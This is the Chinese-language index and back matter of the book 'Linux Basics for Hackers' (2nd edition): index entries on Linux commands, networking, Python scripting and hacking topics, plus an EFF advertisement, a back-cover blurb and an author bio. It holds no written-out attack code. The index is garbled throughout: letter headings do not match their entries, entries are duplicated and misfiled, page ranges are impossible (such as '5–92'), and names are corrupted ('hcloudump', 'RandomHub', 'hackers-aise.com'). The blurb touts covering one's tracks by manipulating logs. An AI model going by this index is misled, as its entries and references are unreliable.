黑客崛起 (Hackers Arise), xxii
- 黑客攻击
  - Linux 对黑客的优势, xxvi–xxvi
  - 黑帽, 87–88
  - 道德的, xxvi–xxvi
  - 灰帽, 87
  - 引入, xxiii
  - Linux 的引入, xiv
  - 白帽, xxvi–xxvi, 87
- 哈希标记 (`#`), 84–85, 186
- hiconfig 工具, 159
- hcloudump 工具, 159
- hitool 工具, 159–160
- hda 硬盘标签, 105
- `head` 命令, 18–19, 21
  - `--help` 命令, 7–8
- `help()` 函数, 187
- 帮助资源, 7–8

# G

Gemini, 203
- `getopts` 命令, 92
  - g 标记, 22–23
- `git clone` 命令, 47
- GitHub, 47
- Google
  - 邮件, 138
  - Gemini, 203
  - 数据包路由, 139
  - 公共 DNS 服务器, 35
- 大统一引导加载程序 (GRUB), xxx–xxvi, xxvi
  - 粒度控制, xxvi
  - 图形用户界面。见 GUIs

HISTSIZE 变量, 75–76
- `jobs` 命令, 92
- `/home` 目录, 2, 4, 4
- `journalctl` 工具, 114–119
- `hosts` 文件, 35–36
  - 删除日志, 118
  - `-h` 选项, 7–8
- 禁用日志, 120
- `\h` 值, 77, 133
- 帮助屏幕, 115

# I

- 查看所有日志, 114
- IDEs (集成开发环境), 183
- 内核日志, 118
- `ifconfig` 命令更改网络信息, 31–33
- 查看事件
  - 网络分析, 28–29
  - 开放扫描器, 89
  - 远程监控网络, 128
  - 无线网络分析, 152–153
    - 24 小时内, 116–117
    - 按用户, 117
  - 查看日志
    - 最高优先级, 116
    - 特定服务, 116
- `if...else` 结构, 194–195
- `if` 结构, 194
- `systemd` 守护进程 (`systemd`), 176
- `journal`守护守护 (`journald`), 114, 120

# K

- `insert` 命令, 131
- 内部威胁, 204
- `insmod` 退出, 167
- `install` 关键字, 40–41
- 集成开发环境 (IDEs), 183
- 情报与间谍, xxiii–xxiv, xxvi, 141
- `int()` 函数, 187

- Kali Linux
  - 桌面, xxx, xxvii
  - 通过 WSL 安装, xxxvii–xxviii
  - 在虚拟机上, xxx, xxxiii
  - 设置, xxvii–xxviii
- `kali–tweaks` 命令, xx, 72–73, 82–83
- IoT 设备漏洞, 205
- 内核, 163–164
  - 检查版本, 165
  - 定义, 163
  - 可加载内核模块
    - 确认模块加载, 169
    - 分配新的, 31–33
- DoS 攻击, 31
- 映射, 35–36
- `ipconfig` 命令, 89
- `ipconfig` 命令, 30–31, 153, 155
- 插入, 167–169
- 列出已安装, 167, 管理, 167–169
- 移除模块, 169, 查看信息, 168
- 调优, 165–167
- `kill` 命令, 66
  - `-k` 选项, 118

# J

- JetBrain, 183
- 任务调度, 171–179
- 备份任务, 174–175
- LAMP (Linux, Apache, MySQL, and PHP), 125
- `len()` 函数, 187
- `less` 命令, 24–25
- `/lib` 目录, 4, 4

# L

- Linux
  - 优势, xxvi–xxvii
  - 未来, xxvii
  - 基础命令, 4–15
  - 基础概念, 1–2
  - 文件系统, 3–4
  - 重要性, iv
  - 终端, xxviii–ix
  - 列出
    - 块设备, 107
    - 目录内容, 6–7
    - Python 列表, 188
- LMs (可加载内核模块), 164–169
  - 定义, 164
  - 插入模块, 167–169
  - 列出已安装模块, 167, 管理, 167–169
  - 移除模块, 169, 查看信息, 168
  - Llama, 2, 203
  - LockBit, 204
  - 日志系统, 113–121
  - 日志文件, 113
  - 逻辑标签, 105, 106
  - 长列表, 7
  - 回环地址, 28
  - 循环, 195–196
  - `for` 循环, 195–196
  - `while` 循环, 105
  - 无损压缩。见压缩
  - 有损压缩, 96
  - 低能量协议 (ATT Protocol), 161
  - `lsblk` 命令, 107–108
    - `-l` 选项
    - 文件创建, 24
    - 列出目录内容, 6–7
    - 权限, 51, 54–85
  - `lsmod` 命令, 167–169
    - `-l` 选项
  - `dfdisk` 工具, 106–107
  - 命令, 7, 14, 51
  - `netstat` 命令, 29

# M

- MAC (媒体访问控制) 地址, 定义, 28, 查看, 28, 欺骗, 32, 无线网络, 153–155
- 主、次数字, 105–106
- `man` 命令, 8–9
- 中间人攻击 (MITM), 164, 166
- 手页, 8–9
- MariaDB, 130–135
  - 访问远程数据库, 133
  - 连接数据库, 133–134
  - 定义, 130
  - 检查数据, 135
  - 表格, 134–135
  - 与 SQL 交互, 131
- 登录, 130–131
- 端口扫描脚本, 88–91
- 流行程度, 130
- 设置密码, 131–132
- 启动, 130–131
- 名称, 33–35
- 国家安全局 (NSA), 141
- `netstat` 命令, 29–30
- 网卡, 153–156
- 网络管理器, 154
- 网络掩码, 更改, 31–32, 关于, 33–33, 更改广播地址, 31–32, 更改网络掩码, 31–32
- 网络, 27–36
- 分析, 28–29
- 分配新 IP 地址, 33–33
- 映射地址, 35–36
- 检查无线设备, 30–31
- Wi-Fi 网络, 152–157
- 新技术系统 (NTFS), 106–107
- `nmap` 命令, 87–89, 142
- `nmcli` 命令, 154–155
- 无选项, 100
  - `-` 切换开关, 33
- `nice` 命令, 64–65
- `shred` 命令, 119
- NTFS (新技术系统), 106–107
- 空字节, xxiii

# N

- `max()` 函数, 187
- 媒体访问控制地址。见 MAC 地址
- `/media` 目录, 4, 4, 108–109
- Medusa, 204
- Meta, 203
- Metasploit, 22
- Microsoft
  - Copilot, 23, xxvi–xxvii
  - WAMP, 25
  - Windows 子 Linux 系统, wiki, xxii
- 中间人攻击 (MITM), 164, 166
- `mkdir` 命令, 14
- `/mnt` 目录, 4, 4, 108–109
- 移动设备漏洞, 203
- `info` 命令, 168
- `modprobe` 命令, 167–169
- 可加载内核模块, 164–169
  - 在 Python 中, 182–183, 189
- 模式, 155–156
- `mount` 命令, 23, 74–75
- 挂载设备, 104, 108–109
- 自动挂载, 108
- 挂载点, 108
- 卸载, 109
- 合并, 15
- MySQL, 130–135
  - 访问远程数据库, 133
  - 连接数据库, 133–134
  - 定义, 130
  - 检查数据, 135
  - 表格, 134–135
  - 与 SQL 交互, 131
- 登录, 130–131
- 端口扫描脚本, 88–91
- 流行程度, 130
- 设置密码, 131–132
- 启动, 130–131
- 网络掩码, 28, 31–32
- 安全默认权限, 56–57

# P

- 分区, 105–107
- 过的命令, 3
- 密码
  - 更改, 3
  - 破解, 22
  - 带异常处理, 197–199
- Wi-Fi AP 密码, 157
- Kali Linux, xxxiv, xxxiv
- 混改, 222
- MySQL and MariaDB, 131–132
- PATH 变量, 9–10
  - 将目录到, 78–79
  - 识别存储的目录, 78
  - 应避免的错误, 79
- 渗透测试, xxv
- 权限, 49–59
  - 更改, 52–56
  - 使用十进制表示, 52, 53–54
  - 为新工具赋予 root 执行权限, 55–56
  - 使用 UGO 语法, 54–55
  - 检查, 51–52
- 移交所有权
  - 给组, 51
  - 给单个用户, 50
- 可执行权限, 85

## 索引

代理服务器（续）
- 安全考量，147
- 在配置文件中设置代理，142–144
- - P51 变量，77

`ps` 命令
- 添加服务，177–178
- 确认进程优先级，65
- 按名称过滤进程，63
- 查看进程信息，12, 62–63
- p 选项

`fsck` 命令，111
- `journalctl` 实用，116
- `nmap` 命令，88
- `purge` 选项，41–42
- `pwd` 命令，5–92

PyCharm，183

PyPI (Python 包索引)，182–200

Python 脚本编写，181–200
- 注释，168–197
- 控制语句，194–195
- - `if...else` 结构，194–195
- `if` 结构，194
- 字典，193–194
- 异常处理与密码破解，197–199
- 格式化，184
- 函数，187–188
- 改进，196–197
- 列表，188
- 循环
  - `for` 循环，195–196
  - `while` 循环，195
- 模块，182–189
- 网络通信，190
- TCP 客户端，190–192
- TCP 监听器，192–193
- 面向对象编程，189–190
- 变量，184–186

勒索软件攻击，203–205

树莓派 Raspberry Pi
- 连接到外围设备，128
- 定义，127
- 下载操作系统，128
- IP 地址，128
- 登录，128
- 远程监视摄像头，127–129
- 构建，128
- 配置摄像头，129
- 设置，128
- 使用进行监视，129

`rconf` 工具，178–179
- - r 脚本，176–178
`read` 命令，84, 91, 92
`readonly` 命令，92
`recv` 方法，191
- 直接符号 (`>`), 13, 35, 89
关系型数据库，131
- `remove` 命令，41
- `renice` 命令，65–66

仓库 (repositories)
- 添加到 `sources.list` 文件，43–44
- 类别，44
- 定义，40
- 来源，61
- 按使用率过滤进程，64
- 杀死进程，66–67
- 进程优先级排序，65–66
- `rm` 命令，15
- `rmdir` 命令，15
- `rmod` 命令，167

`root` 账户 (`root account`)
- 确认登录为，4–5
- 定义，2
- `root` 权限，50, 55–58
- `root` (/) 文件系统，3–4, 55–56, 103
- `rootkit`，169
- `root` 权限，50, 52
- `rootam` 应用，129
- - r 切换，88

`modprobe` 命令，169
`rm` 命令，15
- q 标记，117

`random`
- SATA (Serial ATA) 硬盘，105
- 变量，184–186
链 (chaining)，146
`range()` 函数，187
RandomHub，204

SATA (Serial ATA) 硬盘，105
Schneider, Bruce，147
脚本小子 (script kiddies)，181
- 定义，71
- 查看，74
- `shift` 命令，92
- 开放端口扫描，87–91
- `shred` 命令，118–119
- 清除日志，118–119
- 简单消息脚本，84–87
- Python 脚本编写，181–200
- 使用 AI 编写脚本，206–207

SCSI (小型计算机系统接口)，105
- SIGUP 杀死信号，67, 67
- SIGINT 杀死信号，67, 67
- SIGKILL 杀死信号，67, 67
- SIGQUIT 杀死信号，67
- SIGTERM 杀死信号，66, 67

`sda` 硬盘标签，105
SDP (服务发现协议)，160–161
`sdptool`，160–161
社会工程学，203–206
软件，39–48
- 向 `sources.list` 文件中添加仓库，43–44
- 使用 `apt`，40–41
- 使用基于 GUI 的界面，45–46
- 删除，41–42
- `where` 命令，9
- `which` 命令和 PATH 变量，9–10
- 定义，39
- 彻底清除 (purging)，41–42
- 搜索，40
- `select` 命令，131
- SELECT (;), 131, 133
- 升级，42–43
- 分号 (;), 131, 133
- `排序()` 函数，187

Serial ATA (SATA) 硬盘，105
SourceForge，190
`sources.list` 文件，添加仓库，123–135
SQL，交互，131
MariaDB, OpenSSH;
- `ss` 命令，30, 30

SSH (Secure Shell)
- 定义，125
- 定义，127
- 启动，142
- 远程监视摄像头，127–129
- 服务标识符 (SSID)，152, 154, 157
- SSID (service identifier)，152, 154, 157
- `set` 命令，74, 92
- 设置用户 ID 位，SUID 粘位 (sticky bit)，58
SGID (group ID) 位，58
- `shebang` (#), 84, 86
- 停止命令，156

存储设备管理，103–109
- `/dev` 目录，104–107
- 更改默认，72–73, 82–83
- 更改提示符，76–77
- 定义，2–3, 82
- 字符设备，107
- 逻辑标签，105, 106
- 主编号和从设备编号，105–106
- 分区，105–107
- USB 设备，108
- 挂载设备，104, 108–109
- 手动挂载，109
- 卸载 (eject) 设备，109
- 查看桌面信息，109–110
- `strip()` 函数，199
- `swt` 切换，88
`sudo` 命令，x, 31
SUID (set user ID)
- 定义，57
- 授予临时 root 权限，57
- 权限提升，58–59
超级用户账户 (Root account)
供应链攻击，204
Synaptic，45–46
`syscl` 命令，165–167
`sys` 目录，4
`syslog` 守护进程 (`syslogd`), 114, 120
`systemd` 单元，xx-xx
SysV 工具，xx–xx

一页向下分页，23
一页滚动，24–25
一页过滤，87–91
查找并替换，21–23
第一行，18–19
编号，21
最后行，19–20
语法，更改权限，54–55
`umask` 命令，56, 57, 92
`union` 命令，109
卸载 (弹出) 设备，109
`updated` 命令，9
`upgrade` 关键字，42
检查 USB 设备，108
`user land`，163
美国海军研究局 (ONR)，139
`/usr` 目录，4
- switch
`journalctl` 实用，116
`netstat` 命令，116
u 值，77

变量
向脚本添加功能，86
向脚本添加，90–91
环境，71–80
命名，90
VirtualBox
- 安装，xix, xxx
- 设置，xix-xxx
VMs (虚拟机)，xxvii-xxviii
VPNs (虚拟专用网络)，147–148
漏洞评估，xxv

- Tor (洋葱路由) 系统，139–141
暗网，140–141
加密流量数据，139–140
安装 Tor 浏览器，140
ids, Linus，xxiv
`traceroute` 命令，138–139
流量相关，141
透明度，xxvi
`try/except` 结构，197–199
- t 切换，98
`tar` 命令，97
`tar` 文件（归档文件；tar 包），创建，96–97
从文件中提取，97
TCP 连接，190–102
TCP 扫描，88
TCP 监听器，192–193
终端，2–3
`test` 命令，92
文本，17–25
Python，184–186
从文件中查看文件，97
`type` 命令，92
`type()` 函数，187

`wait` 命令，92
`whereis` 命令，9
`which` 命令，9–10
`while`，195
白帽破解，xxv-xxvi
- 定义，87
军事与间谍活动，xxvi
渗透测试，xx
`whoami` 命令，5
Wi-Fi 安全访问 (WPA)，152
Wi-Fi 网络，152–157
基础命令，152–155
连接到 AP，154–155

X（原 Twitter），203
x 权限，50, 52
XSS (跨站脚本)，124
- x 切换，`tar` 命令，97

僵尸进程，66
Z shell (zsh)，xx, 73, 82
w 权限，50, 52
WSL (适用于 Windows 的 Linux 子)，xxvii-xxviii
w 值，77

《黑客 Linux 基础》第 2 版使用的字体为 New Baskerville, Futura, Dogma 和 TheSansMono Condensed。

## 资源

访问 https://nostarch.com/linux-basics-hackers-2nd-edition 获取勘误和更多信息。

世界从未像现在这样如此依赖互联网来联系和获取信息。这使得电子前哨基金（Electronic Frontier Foundation）的使命——确保技术支持所有人的自由、正义和创新——变得比以往任何时候都更加紧迫。

30多年来，EFF 一直通过行动主义、法律诉讼以及开发软件来克服隐私、安全和自由言论方面的障碍，为技术用户争取权益。这种奉献精神让我们即使在黑暗中也能充满力量。在你的帮助下，我们可以向着更光明的数字未来迈进。

访问 EFF.ORG/NO-STARCH-PRESS 了解更多并加入 EFF

# 想要成为黑客吗？
### 从这里开始。

如果你刚刚开始进入黑客、网络安全和渗透测试这条兴奋的道路，《黑客 Linux 基础》（Linux Basics for Hackers）将是一个极佳的入门教程。通过 Kali Linux（一种专为数字取证和渗透测试设计的操作系统），你将学习使用 Linux 的基础，并掌握控制 Linux 环境所需的工具和技术。

- 编写 bash 脚本来查找特定 IP 地址范围内的潜在攻击目标
- 使用并滥用 MySQL、Apache Web 服务器和 OpenSSH 等服务
- 构建你自己的黑客工具，例如远程摄像头和密码破解器

首先，你将学习如何在虚拟机上安装 Kali，并接触 Linux 的基础概念。接下来，你将处理更广泛的主题，如处理文本、控制文件和目录权限以及管理环境变量。你将专注于安全和匿名性等基础黑客概念，并学习使用 bash 和 Python 编写脚本技能。

> 本版新增内容：第二版已经过更新，以应对 Kali 和 Linux 的最新变化，包括更安全的 root 权限处理方式、对蓝牙和 Linux 日志功能的更新，以及一个关于 AI 在网络安全领域建议的新章节。

贯穿始终的实战教程和练习将强化并测试你的技能，让你学习如何：

- 通过更改网络信息和操纵 `journalctl` 日志工具来掩盖你的踪迹
- 编写一个扫描网络连接、并连接和监听无线网络的工具
- 使用 Tor、代理服务器、VPN 和加密邮件保持你的互联网活动隐蔽性

黑客技术是复杂的，没有单一的入门途径。为什么不从《黑客 Linux 基础》开始学习呢？

# 作者简介

OccupyWeb 是一位信息安全顾问、法医调查员和培训师，拥有超过20 年的行业经验。他维护着 Hackers Arise 培训网站 (hackers-aise.com)，并为美国军人员、国防部承包商以及员工提供信息安全和黑客技术培训。

涵盖 Kali Linux 和 Python 3.x
```
